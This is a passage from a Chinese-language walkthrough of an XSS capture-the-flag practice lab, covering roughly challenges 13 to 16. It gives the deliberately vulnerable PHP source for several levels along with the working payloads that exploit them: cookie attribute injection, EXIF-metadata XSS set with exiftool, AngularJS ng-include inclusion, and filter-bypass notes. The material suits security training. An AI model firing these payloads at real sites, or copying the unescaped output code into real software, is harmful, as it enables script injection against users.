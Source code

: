 ```php+HTML
```

```shell
//修改Cookie
`Cookie: user=call+me+maybe%3F" onmouseover=alert(1) type="text"`
`Cookie: user=call+me+maybe%3F" onclick="alert(1) type="text"`
```

![image-20200828162907084](/images/XSS/image-20200828162907084.png)

`Result`

![image-20200828162927276](/images/XSS/image-20200828162927276.png)

##### 挑战十四

网路搜索：

`此题主要利用exif xss，链接由于网络的原因无法访问，exif xss，一般利用于文件上传的地方，最经典的就是头像上传，上传一个图片，该图片的exif元数据被修改为xss payload，成功利用弹窗，可利用exiftool工具，命令如下：`

```shell
//但是因为域名无法访问了，这题后期再更
`exiftool -FIELD=XSS FILENAME`
`exiftool -Artist=' "><img src=1 onerror=alert(document.domain)>' filename.jpeg`
```

##### 挑战十五

```php+HTML
//ng-include是AngularJS中指令，具有文件包含功能"<div ng-include="'myFile.htm'"></div>
"，和php中include函数类似。可通过src属性来加载以上是挑战任意一个。
//这里需要注意，其中远程加载google的js，需要"扶梯子"才行。
<?php 
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
?>
```

```shell
//这里包含挑战二来实现XSS
`/level15.php?src='level2.php?keyword="><img src=x onerror=alert(1)>'`
```

`Result`

![image-20200828200852458](/images/XSS/image-20200828200852458.png)

##### 挑战十六

```php+HTML
//对变量的值进行script、/、空格等替换&nbsp，用%0d，%0a等绕过
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
<center><img src=level16.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str5)."</h3>";
?>
```
